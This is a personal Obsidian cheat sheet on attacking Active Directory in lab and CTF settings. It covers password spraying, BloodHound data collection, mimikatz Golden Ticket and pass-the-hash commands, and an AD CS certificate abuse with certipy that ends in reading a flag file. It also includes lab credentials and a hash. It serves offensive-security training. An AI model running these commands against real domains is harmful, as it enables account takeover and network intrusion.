 #show
<%*
const path = tp.file.folder(true).split('/');
const filename = "2_B_AD_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 1] + "]]";
-%>

# Password spraying
Check for AD account lockout policy
```powershell
net accounts
```
If not set, we can try to spray AD passwords by two means:
- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admin` (see `~/Documents/activeInformationGathering`)
- `kerbrute passwordspray -d corp.com .\users.txt "Password"` (cross-platform but requires UDP. Text file must be ANSI, else network error)
- `crackmapexec smb $hip -u $user -p '$password' -d corp.com --continue-on-success`
# BloodHound
1. **Setup C2 (Kali)**
```bash
(sleep 15 && bloodhound)& export PS1="$PS1\[\e]0;BloodHound\a\]"; sudo -b neo4j console
```
Enter root-pw into console. Use `neo4j:wandton` as login. If this doesn't work, login to `http://localhost:7474` with `neo4j:neo4j` and change password

One must also transfer the SharpHound script or executable to the victim ([[2_fileTransfer]]). They are in `/ftphome/`

2. **Collect data (Victim)**
```powershell
powershell -ep bypass
```

```powershell
.\SharpHound.exe --CollectionMethods All
```
or
```powershell
Import-Module .\Sharphound.ps1; Invoke-BloodHound -CollectionMethod All -OutputDirectory $dir
```
(Both gather all data except for local group policies.)

When done, transfer the .zip to kali ([[2_fileTransfer]])

3. **Analyze data (Kali)**
	1. In the Web-Interface, use the "Upload Data" function to upload the .zip
	2. Enter `MATCH (m:Computer) RETURN m` as raw query on the bottom. Right-click the node and select "Mark as Owned"
	3. Same for `m:User`
	4. Click the "More Info" tab on the top left. Change to tab "Analysis" and run the following analysis:
		1. _Shortest Paths to Domain Admins from Owned Principals_
		2. _Find Workstations where Domain Users can RDP_
		3. _Find Servers where Domain Users can RDP_
		4. _Find Computers where Domain Users are Local Admin_
	5. Check Relation-Ships with `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`
	Tips: Use the Control-Key to show information about all nodes. Look for the "?" Help menu, it also contains abuse possibilities.

# Yet-to-test attacks



##### Golden Ticket with mimikatz
Enter mimikatz
```
privilege::debug
```
Save Domain ID (sid), Primary NTLM
```
lsadump::lsa /inject /name:krbtgt
```
Create Golden Ticket (saved to ticket.kirbi)
```
kerberos::golden /user:Administrator /domain:%dns% /sid:%sid% /krbtgt:%ntlm% /id:500
```
Open a CMD with elevated privileges to all machines
```
misc::cmd
```
Runs cmd.exe on $machine (Needs PsExec.exe - you can scp) 
```powershell
PsExec.exe \\$machine cmd.exe
```

##### Pass-The-Hash Attack
```
evil-winrm -i $hip -u $user -H $hash
```

# Pwning AD CS
IIS on DC? Might be AD CS.

enumerate4linux-ng says there is an RPC null session. Query all information:

```bash
nxc ldap $hip -u '' -p '' --query "(objectClass=*)" ""
```

This reveals the password for "Computer" (swedish: dator):
```
LDAP                     10.244.0.10     389    DC01             cn                   dator
LDAP                     10.244.0.10     389    DC01             distinguishedName    CN=dator,CN=Computers,DC=hack,DC=lu
LDAP                     10.244.0.10     389    DC01             instanceType         4
LDAP                     10.244.0.10     389    DC01             whenCreated          20251008145950.0Z
LDAP                     10.244.0.10     389    DC01             whenChanged          20251008145954.0Z
LDAP                     10.244.0.10     389    DC01             uSNCreated           12916
LDAP                     10.244.0.10     389    DC01             uSNChanged           12921
LDAP                     10.244.0.10     389    DC01             name                 dator
LDAP                     10.244.0.10     389    DC01             objectGUID           111f2275-4f5f-0e4f-9476-dee4102e691b
LDAP                     10.244.0.10     389    DC01             userAccountControl   69632

....

LDAP                     10.244.0.10     389    DC01             unixUserPassword     vy6A8VGpN7gMxZ
```


Find certificates
```bash
certipy-ad find -vulnerable -u "dator$" -p "vy6A8VGpN7gMxZ" -dc-ip $hip -text -hide-admins
```

![[Pasted image 20251017230608.png]]

this text file contains all information needed

```
certipy-ad req -u "dator$" -p "vy6A8VGpN7gMxZ" -dc-ip $hip -target dc01.hack.lu -ca hack-DC01-CA -template köttbullar -upn Administrator@hack.lu -sid 'S-1-5-21-215134972-1129381140-2588549801-500'
```

With this certificate, we can get a hash

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip $hip
```

![[Pasted image 20251017230804.png]]
and execute commands remotely using the latter part of the hash
```bash
nxc winrm $hip -u 'Administrator' -H "a6b9330f65063062dc3d567db7d4e695" -x "type C:\Users\Administratör\Desktop\flag.txt"
```

![[Pasted image 20251017230900.png]]